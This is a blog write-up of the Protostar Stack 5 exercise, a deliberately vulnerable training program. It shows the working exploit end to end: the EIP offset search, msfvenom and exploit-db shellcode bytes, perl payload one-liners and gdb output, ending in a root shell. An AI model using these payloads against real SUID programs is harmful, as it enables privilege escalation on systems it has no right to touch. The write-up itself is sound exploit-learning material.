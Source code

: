 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 5"
date: 2011-12-17T12:23:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


Wow, this challenge was a tough one for me.  I ran into some huge problems that I had to work out.  Considering this is a "standard buffer overflow", I figured it'd be as easy as some of the others I've done in the past.  I'll explain my frustrations inline. 

<!-- more -->

First, we're given the following vulnerable program.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```

The first task with this challenge was to find the offset of the EIP.  Like previous challenges, I used [Metasploit's](http://www.metasploit.com) pattern_create.rb and pattern_offset scripts on another machine.

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

user@protostar:/opt/protostar/bin$ gdb --quiet ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run
Starting program: /opt/protostar/bin/stack5
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x63413563
76
```

 Now we know that we have 76 characters we could put our shellcode in before the EIP.  I was curious to see if we would have any after as well.  I wanted to explore a little, so I ran this.

```
user@protostar:~$ perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE" . "C"x100' | ./stack5
Segmentation fault (core dumped)

user@protostar:~$ gdb --core=/tmp/core.11.stack5.4174 --quiet
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10s $esp
0xbffff7e0:      'C' <repeats 100 times>
0xbffff845:      "b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff852:      ""
0xbffff853:      ""
0xbffff854:      "\020\203\004\b"
0xbffff859:      ""
0xbffff85a:      ""
0xbffff85b:      ""
0xbffff85c:      "1\203\004\ba\004\b\001"
0xbffff866:      ""
```

Interestingly enough, it looks like we at least have 100 characters after our return address that we could use to store longer shellcodes.  This could come in handy if using shellcodes generated from msfpayload. 

So now we know that we can jump to 0xbffff7e0 to get into our C area.  Let's pad it with a couple NOPs just in case, and jump to 0xbffff7d6 instead. 

Up until now, this was a simple buffer overflow problem.  One may even call it a textbook problem.  Now here's the part that had me frustrated. 

I decided I would try using msfpayload to generate some shellcode like I've done many times in the past.  Since I just want to run /bin/sh, I figured it'd be an easy way.  I also went through the exercise of finding all the badchars (I'll cover this later, since it doesn't matter here).

```
msfvenom -p linux/x86/exec -f pl -b '\x0d\x0a\x00\xff' CMD=/bin/sh PrependSetresuid=true
[*] x86/shikata_ga_nai succeeded with size 80 (iteration=1)
my $buf =
"\xdb\xc8\xd9\x74\x24\xf4\xba\x2a\xa1\xa4\x48\x5d\x29\xc9" .
"\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e" .
"\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a\xe1\x03\xb5\x2c\x7b\x81" .
"\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1" .
"\x7b\x4f\xd5\x06\x29\x67\xed\xc8\xce\x77\xc1\xaa\xa7\x19" .
"\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71" .
"\x03\x6e\x5c";
```

This generated shellcode looked awesome.  I configured it to not have any of my badchars, to run "/bin/sh", and to prepend that execution with a setresuid() so that the SUID bit would affect my result, giving me a root shell, instead of just a shell I already had.  So I set it all up:

```
user@protostar:~$ perl -e 'print "A"x76 . "\xd6\xf7\xff\xbf" . "\x90"x16 . "\xdb\xc8\xd9\x74\x24\xf4\xba\x2a\xa1\xa4\x48\x5d\x29\xc9\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a\xe1\x03\xb5\x2c\x7b\x81\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1\x7b\x4f\xd5\x06\x29\x67\xed\xc8\xce\x77\xc1\xaa\xa7\x19\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71\x03\x6e\x5c"' > /home/user/file
user@protostar:~$ /opt/protostar/bin/stack5 < /home/user/file                  
user@protostar:~$
```

So um, I should have got a shell there right?  There was no segmentation fault, it ran cleanly.  I tinkered by putting "\xcc" before the shellcode, and it would give me a message letting me know that it hit it.  I knew for sure my shellcode was being executed, but no results.  To verify, I used gdb:

``` 
user@protostar:~$ sudo gdb --quiet /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run < /home/user/file
Starting program: /opt/protostar/bin/stack5 < /home/user/file
Executing new program: /bin/dash

Program exited normally.
```

What this showed me was 2 interesting things.  Firstly, I was not aware that many distributions now map /bin/sh to /bin/dash (more info [here](https://wiki.ubuntu.com/DashAsBinSh)).  Secondly, and more importantly, I knew for sure that my shellcode was executing, and creating the process.  I just didn't know why it exited after. 

So this is the point that I spent 5 days on and off messing with.  I found if I changed the msfvenom command from CMD="/bin/sh" to CMD="touch /tmp/iamawesome", the file would be created with root permissions.  Any command that didn't need to return to me for interactive control worked fine.  I tried a myriad of other shellcodes, and nothing just gave me a simple shell.  I could bind a shell to a TCP port, or run a meterpreter with no problem, but for this challenge, I just wanted a simple rootshell from "execve()". 

So one night, I was reading on this, and just happened to get my search query perfect, because I stumbled upon an interesting stackoverflow page, [here](http://stackoverflow.com/questions/2859127/shellcode-for-a-simple-stack-overflow-exploited-program-with-shell-terminates-d).  This guy was having the same problem as me!  And interestingly enough, he mentions problems with programs that use the "gets()" function.  This makes sense, as your standard input/output could be configured in a mode just for the function call.  Unfortunately, the shellcode that was mentioned was hosted at milw0rm, which has been down for a good long time.  Many sites, such as [Exploit-Db](http://www.exploit-db.com) have popped up to fill the void that milw0rm left.  However, they use a completely different url structure, so I had no idea what the shellcode was.  Well, I used the [Internet Way-Back Machine](http://www.archive.org), and found an old cache of milw0rm.  From there, I found the shellcode.  I also found that Exploit-Db has it [here](http://www.exploit-db.com/exploits/13357) as well.  I read through the description of the shellcode, and it makes tons of sense.  So I wire it up to try again, this time with the new shellcode.

```
user@protostar:~$ perl -e 'print "A"x76 . "\xd6\xf7\xff\xbf" . "\x90"x16 . "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' > /home/user/file
user@protostar:~$ /opt/protostar/bin/stack5 < /home/user/file                   
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

Awesome.  I have a root shell.  I guess it's also worth pointing out that since we are specifically jumping to a memory address in our exploit, that memory addresses can change based on how you call it.  The address will be different if I call ./stack5 from inside the /opt/protostar/bin folder, than if I use the full path.  Since I was using gdb, and it calls files using the full path, I did it as well for the exploit.  For now, we have not yet covered how to dynamically get that value.  That will be for a later post.
